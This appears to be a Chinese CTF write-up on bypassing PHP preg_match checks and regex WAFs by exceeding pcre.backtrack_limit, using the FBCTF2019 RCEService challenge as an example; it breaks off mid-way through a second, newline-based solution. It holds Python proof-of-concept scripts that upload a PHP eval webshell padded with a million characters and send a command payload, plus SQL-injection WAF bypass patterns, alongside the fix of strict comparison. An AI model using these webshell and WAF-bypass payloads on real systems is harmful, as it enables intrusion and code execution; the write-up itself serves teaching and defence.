


代码简化如下：

```
<?php
function is_php($data){  
    return preg_match('/<\?.*[(`;?>].*/is', $data);  
}

if(!is_php($input)) {
    // fwrite($f, $input); ...
}
```

大意是判断一下用户输入的内容有没有PHP代码，如果没有，则写入文件。这种时候，如何绕过`is_php()`函数来写入webshell呢？

这道题看似简单，深究其原理，还是值得写一篇文章的。

## 0x01 正则表达式是什么

正则表达式是一个可以被“有限状态自动机”接受的语言类。

“有限状态自动机”，其拥有有限数量的状态，每个状态可以迁移到零个或多个状态，输入字串决定执行哪个状态的迁移。

而常见的正则引擎，又被细分为DFA（确定性有限状态自动机）与NFA（非确定性有限状态自动机）。他们匹配输入的过程分别是：

- DFA: 从起始状态开始，一个字符一个字符地读取输入串，并根据正则来一步步确定至下一个转移状态，直到匹配不上或走完整个输入
- NFA：从起始状态开始，一个字符一个字符地读取输入串，并与正则表达式进行匹配，如果匹配不上，则进行回溯，尝试其他状态

由于NFA的执行过程存在回溯，所以其性能会劣于DFA，但它支持更多功能。大多数程序语言都使用了NFA作为正则引擎，其中也包括PHP使用的PCRE库。

## 0x02 回溯的过程是怎样的

所以，我们题目中的正则`<\?.*[(`;?>].*`，假设匹配的输入是`<?php phpinfo();//aaaaa`，实际执行流程是这样的：


见上图，可见第4步的时候，因为第一个`.*`可以匹配任何字符，所以最终匹配到了输入串的结尾，也就是`//aaaaa`。但此时显然是不对的，因为正则显示`.*`后面还应该有一个字符`[(`;?>]`。

所以NFA就开始回溯，先吐出一个`a`，输入变成第5步显示的`//aaaa`，但仍然匹配不上正则，继续吐出`a`，变成`//aaa`，仍然匹配不上……

最终直到吐出`;`，输入变成第12步显示的`<?php phpinfo()`，此时，`.*`匹配的是`php phpinfo()`，而后面的`;`则匹配上`[(`;?>]`，这个结果满足正则表达式的要求，于是不再回溯。13步开始向后匹配`;`，14步匹配`.*`，第二个`.*`匹配到了字符串末尾，最后结束匹配。

在调试正则表达式的时候，我们可以查看当前回溯的次数：


这里回溯了8次。

## 0x03 PHP的`pcre.backtrack_limit`限制利用

PHP为了防止正则表达式的拒绝服务攻击（reDOS），给pcre设定了一个回溯次数上限`pcre.backtrack_limit`。我们可以通过`var_dump(ini_get('pcre.backtrack_limit'));`的方式查看当前环境下的上限：

[](https://www.leavesongs.com/media/attachment/2018/11/26/f51c0775-1137-44bf-a366-f68b96e5358a.png)

> 这里有个有趣的事情，就是PHP文档中，中英文版本的数值是不一样的：
>
> [](https://www.leavesongs.com/media/attachment/2018/11/26/e1ef3f44-8ea8-4156-94f4-f860e47e9152.png)
>
> 我们应该以英文版为参考。

可见，回溯次数上限默认是100万。那么，假设我们的回溯次数超过了100万，会出现什么现象呢？比如：

[](https://www.leavesongs.com/media/attachment/2018/11/26/ad1ed05b-fab4-4316-96e0-06717ae7b444.png)

可见，`preg_match`返回的非1和0，而是false。

`preg_match`函数返回false表示此次执行失败了，我们可以调用`var_dump(preg_last_error() === PREG_BACKTRACK_LIMIT_ERROR);`，发现失败的原因的确是回溯次数超出了限制：

[](https://www.leavesongs.com/media/attachment/2018/11/26/e9effb6d-fd43-41aa-9bb8-1aab366649e6.png)

所以，这道题的答案就呼之欲出了。我们通过发送超长字符串的方式，使正则执行失败，最后绕过目标对PHP语言的限制。

对应的POC如下：

```php
import requests
from io import BytesIO

files = {
  'file': BytesIO(b'aaa<?php eval($_POST[txt]);//' + b'a' * 1000000)
}

res = requests.post('http://51.158.75.42:8088/index.php', files=files, allow_redirects=False)
print(res.headers)
```

## 0x04 PCRE另一种错误的用法

延伸一下，很多基于PHP的WAF，如：

```
if(preg_match('/SELECT.+FROM.+/is', $input)) {
    die('SQL Injection');
}
```

均存在上述问题，通过大量回溯可以进行绕过。

另外，我遇到更常见的一种WAF是：

```
if(preg_match('/UNION.+?SELECT/is', $input)) {
    die('SQL Injection');
}
```

这里涉及到了正则表达式的“非贪婪模式”。在NFA中，如果我输入`UNION/*aaaaa*/SELECT`，这个正则表达式执行流程如下：

- `.+?`匹配到`/`
- 因为非贪婪模式，所以`.+?`停止匹配，而由`S`匹配`*`
- `S`匹配`*`失败，回溯，再由`.+?`匹配`*`
- 因为非贪婪模式，所以`.+?`停止匹配，而由`S`匹配`a`
- `S`匹配`a`失败，回溯，再由`.+?`匹配`a`
- ...

回溯次数随着a的数量增加而增加。所以，我们仍然可以通过发送大量a，来使回溯次数超出`pcre.backtrack_limit`限制，进而绕过WAF：

[](https://www.leavesongs.com/media/attachment/2018/11/26/abf469d4-eb83-416e-8cb3-caa5d59ffb6f.png)

## 0x05 修复方法

那么，如何修复这个问题呢？

其实如果我们仔细观察PHP文档，是可以看到`preg_match`函数下面的警告的：

[](https://www.leavesongs.com/media/attachment/2018/11/26/cfb5dda3-0643-45b0-9080-81c4a45cda56.png)

如果用`preg_match`对字符串进行匹配，一定要使用`===`全等号来判断返回值，如：

```php
function is_php($data){  
    return preg_match('/<\?.*[(`;?>].*/is', $data);  
}

if(is_php($input) === 0) {
    // fwrite($f, $input); ...
}
```

这样，即使正则执行失败返回false，也不会进入if语句。

## 0x06 题目实例 [FBCTF2019]RCEService

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

这过滤。。。。。。

### 解法一：利用正则回溯次数限制绕过

看到了`preg_match`,就会想到p神曾经提到的PRCE，利用如下的exp：

```php
import requests

payload = '{"cmd":"/bin/cat /home/rceservice/flag","zz":"' + "a"*(1000000) + '"}'

res = requests.post("http://challenges.fbctf.com:8085/", data={"cmd":payload})
print(res.text)
```

### 解法二：多行---利用preg_mach()会尽力匹配第一行的特性

因为preg_match只会去匹配第一行，所以这里可以**用多行进行绕过**

源码中可以看到putenv('PATH=/home/rceservice/jail')已经修改了环境变量，我们只能用绝对路径来调用系统命令

cat命令在/bin中保存

所以构造出payload ，%0A是换行符

